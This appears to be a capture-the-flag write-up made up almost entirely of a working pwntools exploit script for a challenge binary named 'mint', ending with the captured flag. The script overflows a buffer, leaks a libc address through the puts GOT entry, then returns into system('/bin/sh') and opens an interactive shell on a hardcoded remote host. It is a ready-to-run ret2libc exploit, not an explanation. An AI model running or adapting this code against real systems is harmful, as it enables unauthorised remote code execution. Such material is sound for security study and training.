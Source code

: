 exploit。

```python
import re
from pwn import *

LOCAL = False

def send_payload(s, t):
  m = re.findall(r'.{48}|.+', payload)
  s.recvuntil('Enter ur option :' )
  s.sendline('1')
  s.sendline(m[0])
  for a in m[1:]:
    s.recvuntil('Enter ur option :' )
    s.sendline('2')
    s.recvuntil('[2] Overwrite\n')
    s.sendline('1')
    s.sendline(a)
  s.recvuntil('Enter ur option :' )
  s.sendline('4')

addr_main = 0x08048754
addr_puts = 0x08048420
addr_got_puts = 0x0804a018

if LOCAL:
  offset_puts = 0x64d80
  offset_system = 0x3e3e0
  offset_binsh = 0x15fa69
  s = process('./mint')
else:
  offset_puts = 0x5fca0
  offset_system = 0x3ada0
  offset_binsh = 0x15b82b
  s = remote('139.59.61.220', 42345)

# leak libc address
payload = ''
payload += 'A' * 74
payload += p32(addr_puts)
payload += p32(addr_main)
payload += p32(addr_got_puts)

send_payload(s, payload)

libc_base = u32(s.recvline()[:4]) - offset_puts

# shell!
payload = ''
payload += 'A' * 74
payload += p32(libc_base + offset_system)
payload += 'BBBB'
payload += p32(libc_base + offset_binsh)

send_payload(s, payload)

s.interactive()
s.close()
```

```
xiomara{cl!_ed!t0r_pwn!ng_!$_th3_n3w_$3xy}
```
